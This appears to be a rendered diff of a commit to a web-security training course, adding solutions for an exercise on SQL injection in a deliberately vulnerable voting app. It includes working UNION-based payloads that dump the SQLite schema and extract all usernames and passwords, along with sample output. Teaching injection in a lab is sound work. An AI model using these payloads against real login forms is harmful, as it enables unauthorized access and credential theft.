

Before and after one commit to nerdschoolbergen/introduction-to-web-security, a Markdown page: exercise-6/README.md, the part around the change. Shown at 88% size. Drawn GitHub-style; folded sections open; blank space fills up the shorter version.

Commit message:
Add solutions to exercise 6
Explain how the 6.1 payload turns the login query into a UNION that
returns the table definitions, where they show up on the voting page,
and give the 6.2 payload and the passwords it reveals. Both outputs
are copied from a run against the app.

````diff
--- a/exercise-6/README.md
+++ b/exercise-6/README.md
@@ -56,4 +56,59 @@ The login form is still vulnerable. Focus on the username field. A single quote
   Once you know the users table name and columns, you can concatenate username and password fields with the string concatenation operator [`||`](https://www.sqlite.org/lang_expr.html#operators_and_parse_affecting_attributes) inside `GROUP_CONCAT`.
 </details>
 
+## Solutions
+
+<details>
+  <summary>Solution for 6.1</summary>
+
+  With the username from the exercise, the login query becomes:
+
+  ```sql
+  SELECT id FROM user WHERE username='' UNION ALL SELECT GROUP_CONCAT(sql) as id FROM sqlite_schema--' AND password=''
+  ```
+
+  - No user has an empty username, so the first `SELECT` returns no rows.
+  - The second `SELECT` returns one row: the `CREATE` statements of all tables, joined into one string and named `id`.
+  - `--` comments out the password check.
+
+  The app thinks the login succeeded and stores the "id" in the session as the logged-in user. The voting page writes it into the hidden `userId` field of the comment form, so the page source shows:
+
+  ```html
+  <input type="hidden" name="userId" value="CREATE TABLE candidate (
+      id INTEGER PRIMARY KEY AUTOINCREMENT,
+      name text not null,
+      votes text not null default 0
+    ),CREATE TABLE sqlite_sequence(name,seq),CREATE TABLE user (
+      id INTEGER PRIMARY KEY AUTOINCREMENT,
+      username text not null,
+      password test not null,
+      hasVoted bool not null default false
+    ),CREATE TABLE comment (
+      id INTEGER PRIMARY KEY AUTOINCREMENT,
+      author text not null,
+      comment text not null
+    )" />
+  ```
+
+  Now you know there's a `user` table with `username` and `password` columns. (`sqlite_sequence` is an internal table SQLite creates for `AUTOINCREMENT`.)
+</details>
+
+<details>
+  <summary>Solution for 6.2</summary>
+
+  Log in with this username (any password):
+
+  ```sql
+  ' UNION ALL SELECT GROUP_CONCAT(username || ':' || password) as id FROM user--
+  ```
+
+  The hidden `userId` field on the voting page now contains every username and password:
+
+  ```
+  jim_raynor:terran_rox,sarah_kerrigan:zergs_r0ckz!,zeratul:hunter3,user:user
+  ```
+
+  This is why passwords must never be stored in plain text: one SQL injection exposes all of them.
+</details>
+
 ### [Go to exercise 7 :arrow_right:](../exercise-7/README.md)
````
